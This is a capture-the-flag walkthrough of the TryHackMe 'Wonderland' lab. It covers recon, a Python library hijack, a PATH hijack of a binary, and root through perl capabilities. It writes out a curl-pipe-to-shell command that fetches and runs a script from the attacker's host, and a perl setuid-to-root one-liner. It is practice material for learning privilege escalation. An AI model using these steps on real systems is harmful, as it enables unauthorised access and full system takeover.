

# TryHackMe - Wonderland

https://tryhackme.com/room/wonderland

Topics cover in this room:
- Python module manipulation
- PATH variable environment
- Capabilities

### Recon and Enumeration

```bash
nmap -sC -sV 10.10.243.9 # Change this to IP given
```


We found port `80`, lets run `gobuster` to enumerate directory in the website
```bash
gobuster dir -w /opt/common.txt -u 10.10.243.9 
# Change this to IP given
# your wordlist may be different
```
While gobuster is scanning, lets open browser to see what the website has
  


Nothing, lets see the source page. Hit `Ctrl+U` if you are using Firefox


Same. Lets see if our gobuster found something


`/r`, interesting. Lets see what in there. Type `IP_OF_MACHINE/r`
 


Hmm, maybe we should follow *rabbit*? Lets try access all directory with spelling rabbit. The syntax should be
1. `IP_OF_MACHINE/r`
2. `IP_OF_MACHINE/r/a`
3. `IP_OF_MACHINE/r/a/b`
4. `IP_OF_MACHINE/r/a/b/b`
5. `IP_OF_MACHINE/r/a/b/b/i`
6. `IP_OF_MACHINE/r/a/b/b/i`
7. `IP_OF_MACHINE/r/a/b/b/i/t`


Have get ourself into the *rabbit hole*? Lets we check the source code of the page. Hit `Ctrl+U` if you are using firefox
 

We know from Nmap scan, we have port `22` open which we can SSH into the machine. And we found something that was hidden that may have been credential. Lets SSH into the machine with this info
```bash
ssh alice@IP
```
 

***WE ARE IN***

### Alice

Lets see what `alice`
 

We have 2 interesting files called `root.txt` and a python file. Both can only be run as `root`.

Lets see what `sudo` command our `alice` can run
 

So, `alice` can run the python command only as a username `rabbit`. Lets run it
 

We got some poem, lets see what is this python script does. Use `nano walrus_and_the_carpenter.py`
 

 

So, the scripts run a `for` loop where it will randomly split the poem and print in 10 times using `random` library.

If we check python library path configuration using `python3 -c 'import sys; print(sys.path)'` we will see that the very first thing python will check is current directory where the script is run(mark by `['',` )
  
 

What that mean is, we can create a new python file named `random.py` containing some exploit code where `walrus_and_the_carpenter.py` will use it as the library, since current directory is the very first the script will check. More in [here](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Make a new file call `random.py` with `nano` or `vim` and type code bellow

 

Now if we run the `sudo rabbit` command earlier, we will now will switch to user `rabbit`

 

### Rabbit

Neat, lets see what we have in `rabbit` directory.


 
Running `file teaParty` will tell us what is this file. It is a binary file. Running it with `./teaParty` wont tell us much info



Usually with binary file, we can use `strings` to see what piece of string that is in the file. But since there is no `strings` in our machine we will use `less`. Run `less teaParty`. You will get bunch of text that very confusing, its because we try to open binary file as a text. But there are strings that readable, that what we wanted. Scroll down long enough you will find strings that look similiar when we run `./teaParty`


What this binary will do if it run, it will dispay text `Welcome to the tea party! The Mad Hatter will be here soon.` and then date that is `echo` from the variable `date` in the system (in our case its our machine). Hence why when we run the file, we get estimated time +1 hour from our machine. 

If you look closely there are 2 variable that this binary use. `echo` and `date`. `echo` is set to run using PATH from `bin/echo`, but there is no rule for where this `date` variable should run from. We can create our own `date.sh` containing our payload as the PATH preferance for binary to run. So lets do this!

> More on explained of PATH is [here](https://linuxconfig.org/linux-path-environment-variable) and for [this exploit](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) it self

Make a new path on `/tmp` with command `export PATH=/tmp:$PATH` and confirm it with `echo $PATH`. If done correctly we can see that `/tmp` is in front.

> Why on `/tmp` you may ask? Most of the directory that own by `root` can only be access as `root` it self for some exception which `/tmp` is one of them, google this for more info.

Create a new shell script called `date` with `vim` or `nano` with code below


Change the mode of our `date` as executable wih `chmod +x /tmp/date` and run the binary again with `./teaParty`


There is explanation for this exploit, which I will try to explain the best as I can:

1. You may wondering, why we create our `date` on `/tmp` as suppose to in current directory? It because `teaParty` is own and can only edited by `root` which you can check with running command `ls -la`. Since we need to modify the `date` whome our `teaParty` use, hence we need to place it as in `root` only area, and `/tmp` is one of the place that own by `root` whose also can be access by any user. If you try to use in current directory, it wont work.

2. What the code in `date` does is simply spawn `bash` as suppose to complete the script. If we run `teaParty` normally, there is `ending` which the script is complete its job. Where after this exploit, instead of giving you and time estimation in the line after `Probably by` it spawn a `bash` shell.

So now we have `hatter` shell, we will go to `hatter` home directory. 


Go ahead to `cat` the password and lets switch to `hatter` user, since we technically are not fully `hatter`


### Hatter

All we have is just `password.txt`, and nothing else. What we do now? Well lets use enumeration tool, `[linpeas]`(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download the file and put it in your machine. Start web simple httpserver by `python3 -m http.server 80` on where `linpeas.sh` is located. Open a new terminal and type in `ifconfig` and save/write `tun0` IP somewhere

On target machine, type in `curl tun0_IP/linpeas.sh | sh | tee linlog.txt`. What this command does is it will download `linpeas.sh` in our mahcine and run it as well as save it as `linlog.txt`

As you notice, it really slow to navigating the target machine. And there are a lot of information that `linlog.txt` has so we want to copy `linlog.txt` form target machine to our machine. Use `scp hatter@10.10.243.9:/home/hatter/linlog.txt .` and once completed, open it on your machine with `less -r linlog.txt` and press `y`

This part require you to have some knowledge of linux privilege escalation vector. Usually if this is beginner room, you will see right away the vector by finding **orange** color.

Running `sudo -l` confirming that `hatter` dont have access to `sudo`. Right now, the best we can do is to check anythng that `linpeas` has mark with **red** color. One of way to check is to use [GTFOBins](https://gtfobins.github.io/) as well as read the link that `linpeas.sh` gave.

To make it short we will use whats in `capabilities`. Quoting from book.hacktricks.xyz it self
> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

In short: `capabilities` is a way to make a exception for non priviledge user to run important task like most of networking stuff which `root` is the one who capable as `root` is priviledge user. There are a lot of vector we can use, but `linpeas` told us we can use `cap_setuid` of `perl`. Read more [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#capabilities).


Type in `which perl` to find where is the perl executable is located, and head over to [GTFOBins](https://gtfobins.github.io/) and find `Perl` section

On the very bottom, we see `Capabilities` section. We only need some of the code, so use command `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.


> NOTE: `/bin/sh` is change to `/bin/bash` because we want `bash` to spawn, not `sh`

And now you are `root`. Since you are root, you can go to `alice` directory to get `root.txt` and go to `/root` directory to get `user.txt`
